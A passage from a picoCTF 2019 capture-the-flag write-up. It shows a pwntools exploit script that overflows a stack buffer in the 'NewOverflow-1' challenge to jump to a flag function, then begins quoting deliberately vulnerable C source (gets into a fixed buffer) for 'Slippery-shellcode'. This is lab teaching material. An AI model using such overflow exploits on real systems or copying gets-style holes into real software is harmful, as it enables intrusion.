 ```c

  setvbuf(stdout, NULL, _IONBF, 0);
  gid_t gid = getegid();
  setresgid(gid, gid, gid);
  puts("Welcome to 64-bit. Give me a string that gets you the flag: ");
  vuln();
  return 0;
}
```

We can overflow `buf` and jump to the `flag` function to get the flag. First I tried: `padding` + `flag_addr`, but it didn't work after searching, I found that it was because the stack alignment ant he solution was to call `main` after the padding:
 
```python
from pwn import *
from getpass import getpass

user = getpass("Username:")
passwd = getpass("Password:")
host = "2019shell1.picoctf.com"

s = ssh(user=user,password=passwd,host=host)
p = s.run("cd /problems/newoverflow-1_2_706ae8f01197e5dbad939821e43cf123 && ./vuln")

payload = b"a"*64 + b"a"*8
payload += p64(0x4007e8)
payload += p64(0x400767)

p.recvuntil(":")
p.sendline(payload)
p.interactive()
```

### Slippery-shellcode

Source code:

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <sys/types.h>

#define BUFSIZE 512
#define FLAGSIZE 128

void vuln(char *buf){
  gets(buf);
  puts(buf);
}

int main(int argc, char **argv){

  setvbuf(stdout, NULL, _IONBF, 0);
  
  // Set the gid to the effective gid
  // this prevents /bin/sh from dropping the privileges
  gid_t gid = getegid();
  setresgid(gid, gid, gid);

  char buf[BUFSIZE];

  puts("Enter your shellcode:");
```
